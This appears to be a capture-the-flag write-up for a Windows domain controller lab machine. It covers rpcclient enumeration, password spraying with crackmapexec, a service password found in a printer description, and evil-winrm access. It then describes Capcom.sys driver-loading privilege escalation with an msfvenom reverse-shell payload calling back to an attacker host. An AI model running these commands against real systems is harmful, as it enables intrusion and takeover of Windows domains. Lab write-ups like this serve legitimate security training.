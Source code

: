 
---------------
rpcclient, Enumerate Printer Service, cewl, crackmapexec, smb, smbpasswd, Connect with rpcclient, enumdomusers, enumprinters, Reuse crackmapexec, winrm, Privilege Escalation, Load and unload device drivers, EoPLoadDriver, capcom.sys, exploitcapcom, Generic-AppLockerbypasses, reverse.exe, msfvenom, LoadDriver.exe, ExploitCapcom.exe, reverse shell, administrator, Finding the flag.

-------------------
Title: **Enumerating Open Ports 135/139 (Domain Controller) with rpcclient**

**Step 1: Enumerate Users**

```bash
rpcclient -U "" ip -N
```

**If you can't enumerate users, proceed to Step 2.**

**Step 2: Port 80 Check**

Check if port 80 is open. If it is, find the domain name and add it to /etc/hosts.

**Step 3: Enumerate Printer Service**

Enumerate printer services to find potential user accounts:

Usernames: pmerton, tlavel, sthompson, bhult, administrator

**Step 4: Build a Password Dictionary**

Create a password dictionary based on website content:

```bash
cewl -w passwords ipvictim --with-numbers
```

**If users are found, proceed to Step 5.**

**Step 5: Use crackmapexec**

If valid credentials are available, use crackmapexec for SMB enumeration:

```bash
crackmapexec smb ip -u users -p passwords --continue-on-success
```

**If a valid credential with status_password_must_change is found, use smbpasswd.**

```bash
smbpasswd -r ip -U "username"
```

**If the password is changed, proceed to Step 6.**

**Step 6: Connect with rpcclient**

With valid credentials, connect using rpcclient:

```bash
rpcclient -U 'username%password' ip
```

Copy the found users and save them:

```bash
rpcclient enumdomusers
```

**If there are printers (search for important data in the description):**

```bash
rpcclient enumprinters   -  $fab@s3Rv1ce$1
```

**Step 7: Reuse crackmapexec**

Since a password was found in the printers, use crackmapexec again:

```bash
crackmapexec smb ip -u users -p 'password'
svc-print:$fab@s3Rv1ce$1 
```

**Step 8: Try crackmapexec and winrm to check if the user and passwd are available to gain access to the system**

If valid credentials are found with crackmapexec, try connecting with crackmapexec and winrm:

```bash
crackmapexec winrm ip -u "username" -p 'password'

╰─❯ evil-winrm -i 10.10.10.193 -u 'svc-print' -p '$fab@s3Rv1ce$1'                                                        
```

**Step 9: Privilege Escalation**

Navigate to the temp directory and enumerate user privileges:

```bash
whoami /priv
```

**If the "Load and unload device drivers" privilege is found (dangerous):**

Search for "Load and unload device drivers" on tarlogic.com. Compile a Windows Console App in C++ named EoPLoadDriver (64-bit). Download capcom.sys.

Find exploitcapcom on GitHub (exploitcapcom.sln) and compile it with this path at the end: `("C:\\Windows\\System32\\spool\\drivers\\color\\reverse.exe")`

Search for Generic-AppLockerbypasses.md and select a path: (spool, driver, colors) `C:\Windows\System32\spool\drivers\color`

Create reverse.exe with msfvenom:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.0.100 LPORT=1234 -f exe -o reverse.exe
```

Send everything to the victim machine:

windows/Temp > upload Capcom.sys, LoadDriver.exe, ExploitCapcom.exe
cd `C:\Windows\System32\spool\drivers\color\`
upload reverse.exe

Run on the victim machine:

```bash
C:\Windows\Temp\LoadDriver.exe System\CurrentControlSet\kvzlxshell C:\Windows\Temp\Capcom.sys
C:\Windows\Temp\ExploitCapcom.exe
```

This will give you a reverse shell as an administrator, solving the machine.

**Finding the flag**

---

5fe5f7a225cce602d234330a64b66905


















